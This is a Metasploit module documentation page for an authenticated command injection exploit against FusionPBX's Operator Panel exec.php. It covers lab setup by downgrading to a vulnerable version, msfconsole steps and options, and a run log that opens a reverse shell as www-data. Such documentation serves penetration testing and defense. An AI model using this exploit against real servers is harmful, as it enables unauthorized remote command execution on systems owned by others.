 ## Description

  This module exploits an authenticated command injection vulnerability
  in FusionPBX versions 4.4.3 and prior.

  The `exec.php` file within the Operator Panel permits users with
  `operator_panel_view` permissions, or administrator permissions,
  to execute arbitrary commands as the web server user by sending
  a `system` command to the FreeSWITCH event socket interface.


## Vulnerable Software

  This module has been tested successfully on FusionPBX version
  4.4.1 on Ubuntu 19.04 (x64).

  Software:

  * https://www.fusionpbx.com/download
  * https://github.com/fusionpbx/fusionpbx/releases

  At time of writing, a vulnerable version can be tested by using
  the relevant install script for the target platform from the download
  link above, which automatically installs all required dependencies,
  including FreeSWITCH and the latest version of FusionPBX.

  The version of FusionPBX can then be downgraded to a vulnerable version
  by replacing the web root directory with the contents of a vulnerable
  version, such as version 4.4.1, from the GitHub releases link above.

  On Ubuntu, downgrading can be performed as follows:

  ```
  mv /var/www/fusionpbx /var/www/fusionpbx-latest
  mkdir ~/hackyhackhack/ && cd ~/hackyhackhack/
  wget https://github.com/fusionpbx/fusionpbx/archive/4.4.1.zip
  unzip 4.4.1.zip
  mv fusionpbx-4.4.1 /var/www/fusionpbx
  ```

  In the future, downgrading may not be as simple as replacing the web
  root directory contents.


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/unix/webapp/fusionpbx_operator_panel_exec_cmd_exec`
  3. Do: `set rhosts <IP>`
  4. Do: `set username <username>`
  5. Do: `set password <password>`
  6. Do: `run`
  7. You should get a new session


## Options

  **TARGETURI**

  The base path to FusionPBX (default: `/`)

  **USERNAME**

  The username for FusionPBX

  **PASSWORD**

  The password for FusionPBX


## Scenarios

  ```
  msf5 > use exploit/unix/webapp/fusionpbx_operator_panel_exec_cmd_exec 
  msf5 exploit(unix/webapp/fusionpbx_operator_panel_exec_cmd_exec) > set rhosts 172.16.191.214
  rhosts => 172.16.191.214
  msf5 exploit(unix/webapp/fusionpbx_operator_panel_exec_cmd_exec) > set username test
  username => test
  msf5 exploit(unix/webapp/fusionpbx_operator_panel_exec_cmd_exec) > set password wBXxcY4LTAsMd46!
  password => wBXxcY4LTAsMd46!
  msf5 exploit(unix/webapp/fusionpbx_operator_panel_exec_cmd_exec) > set lhost 172.16.191.165
  lhost => 172.16.191.165
  msf5 exploit(unix/webapp/fusionpbx_operator_panel_exec_cmd_exec) > run

  [*] Started reverse TCP double handler on 172.16.191.165:4444 
  [+] Authenticated as user 'test'
  [*] Sending payload (295 bytes) ...
  [*] Accepted the first client connection...
  [*] Accepted the second client connection...
  [*] Command: echo ULzaVUoa3XPSZANH;
  [*] Writing to socket A
  [*] Writing to socket B
  [*] Reading from sockets...
  [*] Reading from socket A
  [*] A: "ULzaVUoa3XPSZANH\r\n"
  [*] Matching...
  [*] B is input...
  [*] Command shell session 1 opened (172.16.191.165:4444 -> 172.16.191.214:57626) at 2019-11-01 15:54:42 -0400

  id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  pwd
  /
  uname -a
  Linux ubuntu-19-04-x64 5.0.0-32-generic #34-Ubuntu SMP Wed Oct 2 02:06:48 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
  ```

